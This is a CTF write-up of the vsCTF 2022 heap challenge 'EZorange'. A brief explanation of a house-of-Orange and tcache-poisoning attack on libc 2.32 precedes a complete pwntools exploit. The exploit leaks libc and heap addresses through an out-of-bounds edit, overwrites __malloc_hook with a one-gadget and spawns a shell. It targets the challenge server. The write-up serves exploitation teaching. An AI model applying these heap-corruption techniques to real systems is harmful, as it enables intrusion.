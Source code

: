 ### EZorange

was a heap pwn challenge from vsCTF 2022

is starts as house of Orange (as the name hints)

the challenge has no possibility to free a chunk, we can only allocate a chunk of up to 0x1000 bytes, and edit it. 

The edit function is an oob read/write, we can use it to write or leak a byte at any offset from the beginning of the chunk.

As with the house of orange, we will reduce top_chunk, then allocate a 0x1000 chunk, that will free the top_chunk remaining chunk.

With that trick we can free two chunks that will go in the tcache.

Then we do a classic tcache poisonning with the oob r/w edit function,

and we overwrite __malloc_hook with a one gadget to get a shell.

The challenge is based on libc 2.32,  but the safe linking does not change anything, as we can leak the heap address with the oob r/w.



Here is the exploit commented.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("./ezorange_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.32.so")

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l0', filename]).decode().split(' ')]
onegadgets = one_gadget(libc.path, libc.address)

rop = ROP(exe)

host, port = "104.197.118.147", "10160"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

def buy(idx,size):
  p.sendlineafter('> ', '1')
  p.sendlineafter(': ', str(idx))
  p.sendlineafter(': ', str(size))

def modify(idx, cell, val=0):
  p.sendlineafter('> ', '2')
  p.sendlineafter(': ', str(idx)) 
  p.sendlineafter(': ', str(cell))
  p.recvuntil('Current value: ',drop=True)
  retval = int(p.recvuntil('\n',drop=True),10)
  if (val<256):
    p.sendlineafter('New value: ', str(val))
  else:
    p.sendlineafter('New value: ', '+')
  return retval

buy(0, 0x18)
modify(0, 26, 0)
buy(1, 0x1000)

leak = 0
for i in range(6):
  leak += modify(0, 32+i, 256)<<(i<<3)

print('libc leak = '+hex(leak))
libc.address = leak - 0x1c5c00
print('libc base = '+hex(libc.address))

buy(0, 0x100)

buy(1,0xce0)
# modify top_chunk size to 0x301
modify(1, 0xce8, 1)
modify(1, 0xce9, 3)
modify(1, 0xcea, 0)
# free 1st 0x2e0 chunk
buy(1,0x1000)

buy(0, 0x100)

buy(1,0xce0)
# modify top_chunk size to 0x301
modify(1, 0xce8, 1)
modify(1, 0xce9, 3)
modify(1, 0xcea, 0)
# free second 0x2e0 chunk
buy(1,0x1000)

def obfuscate(p, adr):
    return p^(adr>>12)

# leak heap fd pointer
leak2 = 0
for i in range(6):
  leak2 += modify(0, 0x44948+i, 256)<<(i<<3)

print('heap leak = '+hex(leak2))

# target to get allocation to (malloc_hook)
target= obfuscate(libc.sym['__malloc_hook'], (leak2+0x44d00))
# do tcache poisonning on second chunk
for i in range(6):
  modify(0, 0x44940+i, (target>>(i<<3))&0xff)

buy(1,0x2d0)
# second allocation will be on our target
buy(0,0x2d0)

onegadgets = one_gadget(libc.path, libc.address)
target = onegadgets[1]

# write onegadget to our target
for i in range(6):
  modify(0, i, (target>>(i<<3))&0xff)

# launch onegadget & got shell
buy(0,1)

p.interactive()
```

